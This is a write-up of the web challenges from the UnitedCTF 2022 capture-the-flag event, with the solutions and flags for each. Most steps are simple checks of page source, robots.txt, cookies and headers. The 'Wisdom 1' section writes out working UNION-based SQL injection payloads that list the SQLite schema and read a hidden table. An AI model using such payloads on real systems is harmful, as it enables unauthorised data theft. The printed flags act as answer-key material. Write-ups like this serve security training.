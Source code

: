 ```yaml
---
layout: post
title: UnitedCTF 2022 Writeup - Web
date: 2022-10-07
type: post
tags:
- Writeup
- Hacking
- UnitedCTF
- CTF
permalink: /2022/10/UnitedCTF/Web
img: 2022/10/UnitedCTF/Web/Web.png
---
```


## Information à la source

![Information à la source](/assets/images/2022/10/UnitedCTF/Web/InformationALaSource.png "Information à la source")


```
Vous avez vu que la page d'accueil semble encore en construction. La compagnie laisse peut-être trainer ses secrets?

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)


I launched a browser and opened the challenge page.

![Site](/assets/images/2022/10/UnitedCTF/Web/Site.png "Site")

The site was very simple. I looked at the source code and the flag was in a comment.

```html
<!-- TODO : FLAG-H4CK1N9-C0C4-C0lA-->
```

Flag: FLAG-H4CK1N9-C0C4-C0lA

## Un site bien caché

![Un site bien caché](/assets/images/2022/10/UnitedCTF/Web/UnSiteBienCache.png "Un site bien caché")

```
Le site semble bien protégé, il est introuvable lorsqu'on le cherche avec un moteur de recherche.

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description says that search engines can't find the site. That immediately points to a `robots.txt` file. I opened `http://coca-cola.ctf.unitedctf.ca/robots.txt` and it contained the flag.

```
# FLAG-f0R-hum4n-0n1y

User-agent: *
Disallow: /
```

Flag: FLAG-f0R-hum4n-0n1y

## La recette secrète

![La recette secrète](/assets/images/2022/10/UnitedCTF/Web/LaRecetteSecrete.png "La recette secrète")

```
Bien que vos accès sont restreints vous donnant seulement accès aux recettes en cours de développement, vous avez accepté d’aider le SCRS à soutirer de l’information sur la recette originale de coke. Il vous reste maintenant à acquérir cette information…


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

This one talks about recipes. It says we only have access to the recipes that are being developed. But we need to find the original recipe. 

![Recettes](/assets/images/2022/10/UnitedCTF/Web/Recettes.png "Recettes")

There are two recipes on the site. This is their URLs:
* http://coca-cola.ctf.unitedctf.ca/recette/2
* http://coca-cola.ctf.unitedctf.ca/recette/3

We have recipes 2 and 3. What about recipe 1? I navigate to http://coca-cola.ctf.unitedctf.ca/recette/1 .

![Recette 1](/assets/images/2022/10/UnitedCTF/Web/Recipe1.png "Recette 1")

Flag: FLAG-F0R-Y0UR-3Y35-0N1Y

## Un biscuit avec ça?

![Un biscuit avec ça?](/assets/images/2022/10/UnitedCTF/Web/UnBiscuitAvecCa.png "Un biscuit avec ça?")

```
Une personne vous a dit qu'un secret est dans les cookies, c'est presque comme les biscuits chinois.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description for this one talks about cookies. I opened the dev tools and looked at the site's cookies.

![Cookies](/assets/images/2022/10/UnitedCTF/Web/Cookies.png "Cookies")

Flag: FLAG-N0-F00D-H3R3

## Secret en tête

![Secret en tête](/assets/images/2022/10/UnitedCTF/Web/SecretEnTete.png "Secret en tête")

```
Une personne ayant aussi de la difficulté avec l’administration a accepter de vous aider en vous donnant accès à un super secret. À l'acceuil, elle vous a répondu qu'elle avait de l'information en tête à donner.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description talks about headers, so I opened Burp and checked the header in the site response.

```http
HTTP/1.1 304 Not Modified
x-powered-by: Express
super-secret: FLAG-N0-M0R3-53CR3T
set-cookie: Secret here=FLAG-N0-F00D-H3R3; Path=/
etag: W/"5f8-pico+SlyZ/xyQxzJvO6Z5SUqOXs"
date: Mon, 03 Oct 2022 22:59:05 GMT
keep-alive: timeout=5
connection: close
```

Flag: FLAG-N0-M0R3-53CR3T

## Wisdom 1

![Wisdom 1](/assets/images/2022/10/UnitedCTF/Web/Wisdom1.png "Wisdom 1")

```
Did you check my website? It offers a way to search for inspirational quotes, I hope there's nothing wrong with it, but on the off chance that you might find anything, please be kind and let me know what you found :)

⚠️Note: If you find a flag that doesn't work for Wisdom 1, then it's probably the flag for Wisdom 2, and vice versa.


http://wisdom.ctf.unitedctf.ca/
```

Author: [hfz](https://github.com/hfz1337)

![Site](/assets/images/2022/10/UnitedCTF/Web/SiteWidom1.png "Site")

The site allows searching for quotes. 

I tried basic SQL Injections in the search field. Sending `' or 1 = 1 -- -` returned all the quotes.

Next, I tried to use order by to find out how many columns the query returned `' or 1 = 1 Order By 1 -- -`. It returned 3 columns.

I kept experimenting and found out it was using SQLite.

I extracted the list of tables in the database. 

```sql
aaa' Union Select name, sql from sqlite_master -- -
```

```sql
“CREATE TABLE my_s3cr3t_7abl3 (flag text)” - my_s3cr3t_7abl3

“CREATE TABLE quotes (author text, quote text)” - quotes
```

And then read the flag.

```
aaa' Union Select 1, flag from my_s3cr3t_7abl3 -- -
```

```
“FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x” - 1
```

Flag: FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x
